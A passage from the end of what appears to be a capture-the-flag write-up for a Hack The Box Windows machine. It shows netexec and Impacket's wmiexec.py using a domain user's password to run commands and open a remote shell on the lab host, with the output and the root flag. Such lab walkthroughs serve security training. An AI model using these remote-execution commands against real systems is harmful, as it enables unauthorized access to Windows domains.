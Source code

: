 We finish the box by retrieving the <mark>root.txt</mark> flag!
{% highlight shell %}
┌──(iwo㉿kali)-[~]
└─$ netexec smb 10.10.11.129 -u tristan.davies -p 'KotyZaPloty!0' -X 'type C:\Users\Administrator\Desktop\root.txt'  
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\tristan.davies:KotyZaPloty!0 (Pwn3d!)
SMB         10.10.11.129    445    RESEARCH         [+] Executed command via wmiexec
SMB         10.10.11.129    445    RESEARCH         #< CLIXML
SMB         10.10.11.129    445    RESEARCH         f201cfbf207a05254c711fc5b7b5b4e3
{% endhighlight %}

Alternatively, we could get a shell using <mark>wmiexec.py</mark> and grab the flag from there.
{% highlight shell %}
┌──(iwo㉿kali)-[~]
└─$ wmiexec.py tristan.davies:'KotyZaPloty!0'@10.10.11.129
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
search\tristan.davies
{% endhighlight %}